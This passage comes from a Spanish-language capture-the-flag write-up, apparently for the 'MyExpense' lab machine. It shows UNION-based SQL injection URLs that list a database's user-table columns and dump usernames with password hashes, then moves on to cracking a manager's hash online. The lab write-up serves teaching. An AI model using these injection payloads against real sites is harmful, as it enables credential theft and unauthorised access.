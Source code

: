 ```sql
http://192.168.101.150/site.php?id=2 union select 1, column_name from information_schema.columns where table_schema='myexpense' and table_name = "user"-- -
```
![](/assets/imgs/my_expense_29.png)

Encontramos la tabla en donde se guardan los usuarios y contraseñas, vamos a listarlas para ver lo que tienen.

### Listando usuarios y contraseña

```sql
http://192.168.101.150/site.php?id=2 union select 1, group_concat(username,0x3a,password) from user-- -
```

![](/assets/imgs/my_expense_30.png)

Esto nos devuelve todos los usuarios y sus contraseñas hasheadas :)

## Crackeando Hashes

Necesitamos la contraseña de quien en este caso podria aprobar nuestro rembolso, este usuario es ***pbaudouin*** asi que vamos a ver si podemos crackear el hash de su contraseña.

Esto se puede hacer de forma local o online, en mi caso voy a usar el metodo online usando [hashes.com](hashes.com)


![](/assets/imgs/my_expense_31.png)
